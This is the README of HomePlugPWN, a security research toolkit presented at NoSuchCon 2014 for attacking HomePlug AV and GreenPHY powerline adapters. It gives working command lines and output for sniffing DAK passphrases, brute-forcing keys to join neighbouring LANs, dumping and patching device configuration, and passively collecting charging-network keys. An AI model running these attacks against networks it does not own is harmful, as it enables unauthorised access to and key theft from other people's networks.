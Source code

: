 HomePlugPWN
===========

- HomePlugAV PLC tools presented at NoSuchCon 2014: http://www.nosuchcon.org/talks/2014/D1_03_Sebastien_Dudek_HomePlugAV_PLC.pdf
- Tools on HomePlug GreenPHY will be presented soonly...

## Requirements 
- Python >= 3.x
- Scapy v2.x
- Promiscous mode for Sniff Indicate packets

## Tools

- HomeplugAV.py scapy Layer: create and craft your own HomePlugAV packets
- discover.py: sends 'GetDeviceTypeRequest' in broadcast to discover PLCs of the same AVLN
- genDAK.py: derives MAC address to get a Qualcomm DAK passhrase
- PBKDF1.py: hashes the DAK or NMK passhrase using the PBKDF1
- quickKODAK.py: performs a KODAK bruteforce on powerline
- plcmon.py: enables 'Sniffer mode' and uses Sniffer Indicate packet to retrieve CCos MAC address
- PIBdump.py: dumps your entire PLC configure (PIB) into a file
- patchPIB.py: patch arbitrary bytes of your PLC, or a field between bytes 0x0-0x400 (see the details of ModulePIB conditions in the Scapy layer). 
- HPGPKeysCollect.py: parse HPGP messages and collect keys

## Efficient remote attack quick guide

First we plug our device to the powerline and sniff for every possible CCo:

```bash
python3 plcmon.py 
[+] Enabling sniff mode
Sent 1 packets.
[+] Listening for CCo station...
	 Found CCo: 44:94:fc:56:ff:34 (DAK: RMHT-ILPO-TYMN-IIXY)
         [...]
```

The tool recovers also the DAK passphrase directly. 

Too change the NMK of the CCos to have a chance to connect to neighbor(s) LAN, we can send the SetEncryptionKeyRequest to the CCos:

```bash
python3 quickKODAK.py -i eth0 -t 4494fc56ff34
Sent 1 packets.
``` 

If you want to reconfigure all device, skip 2-3 of the MAC address found previously as follows:

```bash
python3 quickKODAK.py -i eth0 -t 4494fc56
Sent 1 packets.
```

This will bruteforce the 2 last bytes, generating a new DAK and sending it in broadcast for every combinaison.

## Dump the entire PIB

The following tool aims to dump the entire PIB. You could also use the same techniques to dump the NVM or the Soft-Bootloader...

To process the dump use it as follows:

```bash
python3 ./PIBdump.py -i enp0s26u1u1 -o mycpl.pib
[...]
[+] PIB dump: Success!
```

A file containing your PLC Programmable Information Blocks (PIB) should be created as follows:

```bash
wc -c mycpl.pib 
16440 mycpl.pib
```

## Patch your PIB

If you want to change your MAC address for example, you can specify the Scapy attribute to modify and its new value:

```bash
python3 patchPIB.py -i enp0s26u1u1 -d <dest. MAC addr> -t "PIBMACAddr" -v "c0:ff:ee:c0:ff:ee"
```

The MAC address should be changed after that for your targeted device. But if the addresses are read-only for this device, you have to hack a little bit to reflash it correctly.

Nevertheless, if you want to change any arbitrary byte use this command as follows:

```bash
 python3 patchPIB.py -i enp0s26u1u1 -d <dest. MAC addr> -a <start_addr>:<len> -v <value>
```

Like this, you can rewrite the tone map and any other field of your choice ;)

## Collecting HomePlug GreenPHY keys from SLAC procedure

The standard is vulnerable to passive attack, letting an attacker to collect keys during a SLAC procedure.

The tool `HPGPKeysCollect.py` implements the passive attack to collect keys from a capture, or by sniffing the local PLC interface as follows:

```bash
python3 HPGPKeysCollect.py -i eth0
[...]
Sniffing on interface 'eth0'
[...]
[+] New keys collected for NetID ('\x45\x00\x23\x34\x76\x34\x01')
{'EVID': '\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xcc',
 'EVSEID': '\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00',
 'NMK': 'YT\xe2\x1e\x45\xf4\x23\x00E\x34\x45\xe7\xc2\x34',
 'RunID': '\x12BA\xee\xff\xe1\x36\x09'}
```

Please note that at least byte `0x1653` of the PLC should be set to '1' to get it work.

## Licence

HomePlugPWN tools including the HomePlugAV scapy Layer are under the **GPLv2**

## Problems?

- Give us your feedback ;)

## Acknowledgements

* Xavier Carcelle for his book (Power Line Communications in Practice), and his Framework FAIFA
* Ben Tasker for finding CCos MAC addresses in Sniff Indicate packets
* Open-PLC-Utils : https://github.com/qca/open-plc-utils
* Netgear and TP-Link utilities
* Homeplug AV and IEEE 1901: A Handbook for PLC Designers and Users
